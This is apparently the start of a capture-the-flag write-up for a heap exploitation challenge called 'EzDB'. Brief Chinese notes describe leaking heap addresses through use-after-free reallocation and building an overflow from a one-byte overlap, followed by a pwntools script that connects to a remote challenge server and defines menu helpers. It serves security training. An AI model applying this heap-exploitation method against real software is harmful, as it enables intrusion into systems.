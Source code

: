 
# Pwn

## EzDB

利用释放后重新申请会打印出一些堆信息来泄露

利用一字节重叠构造出任意大小溢出

```python
#! /usr/bin/python3
from pwn import *
#pyright: reportUndefinedVariable=false
from ctypes import *

context.os = 'linux'
context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

elf=ELF("./db")
libc=ELF("./libc.so.6")

debug = 0

if debug:
    io = process('./db')
    #io = remote('0.0.0.0',9999)
else:
    io = remote("61.147.171.106",49494)

def p():
    gdb.attach(proc.pidof(io)[0])

def create(idx):
    io.sendlineafter(">>> ",'1')
    io.sendlineafter("Index: ",str(idx))

def remove(idx):
    io.sendlineafter(">>> ",'2')
    io.sendlineafter("Table Page Index: ",str(idx))

def insert(idx,length,cnt):
    io.sendlineafter(">>> ",'3')
    io.sendlineafter("Index: ",str(idx))
    io.sendlineafter("Varchar Length: ",str(length))
    io.sendlineafter("Varchar: ",cnt)

def get(idx,sid):
    io.sendlineafter(">>> ",'4')
    io.sendlineafter("Index: ",str(idx))
    io.sendlineafter("Slot ID: ",str(sid))

def edit(idx,sid,length,cnt):
    io.sendlineafter(">>> ",'5')
    io.sendlineafter("Index: ",str(idx))
    io.sendlineafter("Slot ID: ",str(sid))
    io.sendlineafter("Varchar Length: ",str(length))
    io.sendlineafter("Varchar: ",cnt)

def mexit():
    io.sendlineafter(">>> ",'6')

```
